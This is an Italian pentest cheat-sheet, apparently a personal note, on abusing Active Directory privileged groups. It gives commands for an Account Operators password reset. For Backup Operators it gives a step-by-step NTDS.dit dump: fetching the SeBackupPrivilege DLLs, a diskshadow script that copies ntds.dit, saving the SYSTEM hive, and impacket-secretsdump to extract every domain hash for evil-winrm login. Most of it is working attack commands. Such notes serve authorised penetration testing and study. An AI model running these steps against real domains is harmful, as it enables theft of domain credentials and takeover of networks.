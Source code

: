 # Groups

### **ACCOUNT OPERATORS**

Può gestire e creare utenti amministratore non amministratore, quindi anche cambiare le password di altri utenti

```powershell
net user <USER> NewPassword1234 /domain
```

#### **BACKUP OPERATORS**

_DUMP NTDS.DIT_ Dobbiamo riuscire a fare il backup del file ntds.dit, un file contenente tutti gli hash e informazioni del dominio Scarica i seguenti file https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

***

https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll Crea un file chiamato diskshadow.txt contenente queste righe

```vim
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #
```

crea una cartella tmp sulla macchina

```powershell
mkdir c:\tmp
```

e carica tutti e tre i file

```powershell
upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
upload diskshadow.txt
```

avvia diskshadow

```powershell
diskshadow.exe /s c:\tmp\diskshadow.txt
```

!\[\[Pasted image 20230510125209.png]] Importa i moduli caricati prima e usa il comando

```powershell
Import-Module
Set-SeBackupPrivilege
```

Copia il file SYSTEM e NTDS.dit e scaricateli

```powershell
reg save HKLM\SYSTEM c:\tmp\system
copy-filesebackupprivilege x:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
```

Usa secretdump di IMPACKET per dumpare gli hash ed entra con evil-winrm

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

#### **SERVER OPERATOR**

Puoi restartare i servizi e modificarne i PATH
